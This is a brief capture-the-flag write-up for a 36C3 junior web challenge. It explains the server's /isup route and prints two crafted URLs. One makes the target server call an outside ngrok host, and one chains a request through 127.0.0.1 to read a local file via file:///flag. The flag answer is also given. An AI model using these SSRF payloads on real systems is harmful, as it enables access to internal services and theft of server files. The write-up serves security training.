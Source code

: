# Stage 2 - double - web - easy

## Challenge
Get the /flag at http://108.61.211.185/

## Solution
The webpage returns server (code)[https://github.com/ljagiello/junior-36c3-ctf/blob/master/2-double-web-easy/server.py].
Based on the code we see 2 routes:
* `/` - prints server code
* `/isup` - checks some conditions and makes http request

conditions:
* in param `name` we need 2 words `http` and `kuchenblech`
* `REMOTE_ADDR` cannot starts with `127` or `172`.

We can simply construct proxy and receive request on http://a903d08b.ngrok.io
```
http://108.61.211.185/isup?name=http://a903d08b.ngrok.io?kuchenblech
```
To get a flag we need to make a double request
```
http://108.61.211.185/isup?name=http://127.0.0.1:8080/isup?kuchenblech=a%26name=file:///flag
```

## Links
* https://ngrok.com/

## Flag
```
junior-double_or_noth1ng
```
